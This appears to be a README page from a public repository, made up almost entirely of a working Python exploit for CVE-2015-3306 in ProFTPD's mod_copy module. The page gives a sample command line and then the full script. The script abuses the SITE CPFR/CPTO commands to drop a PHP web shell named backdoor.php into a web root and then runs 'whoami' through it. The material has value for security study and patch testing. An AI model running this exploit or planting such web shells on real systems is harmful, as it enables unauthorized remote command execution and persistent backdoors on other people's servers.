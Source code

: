 payload

./exploit.py --host 127.0.0.1 --port 21 --path "/var/www/html/"

```
#!/usr/bin/env python
# CVE-2015-3306 exploit by t0kx
# https://github.com/t0kx/exploit-CVE-2015-3306

import re
import socket
import requests
import argparse

class Exploit:
    def __init__(self, host, port, path):
        self.__sock = None
        self.__host = host
        self.__port = port
        self.__path = path

    def __connect(self):
        self.__sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.__sock.connect((self.__host, self.__port))
        self.__sock.recv(1024)

    def __exploit(self):
        payload = "<?php echo passthru($_GET['cmd']); ?>"
        self.__sock.send(b"site cpfr /proc/self/cmdline\n")
        self.__sock.recv(1024)
        self.__sock.send(("site cpto /tmp/." + payload + "\n").encode("utf-8"))
        self.__sock.recv(1024)
        self.__sock.send(("site cpfr /tmp/." + payload + "\n").encode("utf-8"))
        self.__sock.recv(1024)
        self.__sock.send(("site cpto "+ self.__path +"/backdoor.php\n").encode("utf-8"))

        if "Copy successful" in str(self.__sock.recv(1024)):
            print("[+] Target exploited, acessing shell at http://" + self.__host + "/backdoor.php")
            print("[+] Running whoami: " + self.__trigger())
            print("[+] Done")
        else:
            print("[!] Failed")

    def __trigger(self):
        data = requests.get("http://" + self.__host + "/backdoor.php?cmd=whoami")
        match = re.search('cpto /tmp/.([^"]+)', data.text)
        return match.group(0)[11::].replace("\n", "")

    def run(self):
        self.__connect()
        self.__exploit()

def main(args):
    print("[+] CVE-2015-3306 exploit by t0kx")
    print("[+] Exploiting " + args.host + ":" + args.port)

    exploit = Exploit(args.host, int(args.port), args.path)
    exploit.run()

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('--host', required=True)
    parser.add_argument('--port', required=True)
    parser.add_argument('--path', required=True)
```
